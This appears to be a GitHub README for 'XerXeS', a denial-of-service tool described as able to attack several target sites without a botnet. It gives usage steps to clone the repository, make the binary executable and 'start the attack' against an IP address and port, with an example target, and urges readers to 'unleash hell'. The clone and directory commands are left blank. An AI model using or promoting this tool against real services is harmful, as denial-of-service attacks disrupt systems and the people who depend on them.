 # XERXES
---XerXeS is an extremely efficient DoS tool, developed by the hacker, The Jesterto automate DoS attacks. It provides the capacity to launch multiple independent attacks against several target sites without necessarily requiring a botnet.

## Usage
To unleash hell on a particular service 
- Clone the repository`$ git clone `
- Change Directory to the xerxes-II `$ cd `

### FILE PERMISSSION
*Note: WITHOUT GIVING PRIVILEGES IT WILL NOT WORK*
This command will give executeable permission to the file - `chmod +x xerxes`

### START THE ATTACK
`$./xerxes site's 'IP address' and 'PortNo.'`
  For example - ./xerxes 192.168.54.31 443

